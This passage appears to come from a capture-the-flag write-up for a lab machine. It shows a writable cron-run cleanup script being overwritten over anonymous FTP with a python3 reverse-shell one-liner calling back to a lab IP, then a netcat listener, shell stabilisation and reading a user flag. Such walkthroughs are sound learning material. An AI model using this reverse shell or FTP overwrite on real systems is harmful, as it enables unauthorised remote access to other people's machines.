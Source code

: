 We can see it's a cleanup script that aims to remove temporary files. If this script is really 
running periodically, we can put a reverse shell in it and wait for a connection.

## FTP exploitation

First, let's create our malicious clean.sh script.
```
#!/bin/bash

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.31.20",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

I used [revshells.com](https://www.revshells.com/) to generate a python3 reverse shell.
Now, let's replace the originial clean.sh file with our malicious script using ftp :  
```
ftp> put clean.sh 
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
232 bytes sent in 0.00 secs (5.6731 MB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          232 Oct 14 15:20 clean.sh
-rw-rw-r--    1 1000     1000         2666 Oct 14 15:20 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> 
```

We can now set up a netcat listener on port 4242 and wait for a connection :  
```
attacker@AttackBox:~/Documents/THM/CTF/Anonymous$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.14.31.20] from (UNKNOWN) [10.10.57.143] 42090
$ whoami
whoami
namelessone
$
```

And we have a shell as namelessone ! Let's stabilise our shell :
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
namelessone@anonymous:~$ export TERM=xterm
export TERM=xterm
namelessone@anonymous:~$
```

And to fully stabilise the shell, I put it in background using CTRL+Z and then I use `stty -echo raw;fg`.
Let's see what files are in the current directory :  
```
namelessone@anonymous:~$ ls
pics  user.txt
namelessone@anonymous:~$ cat user.txt 
**************************************
```
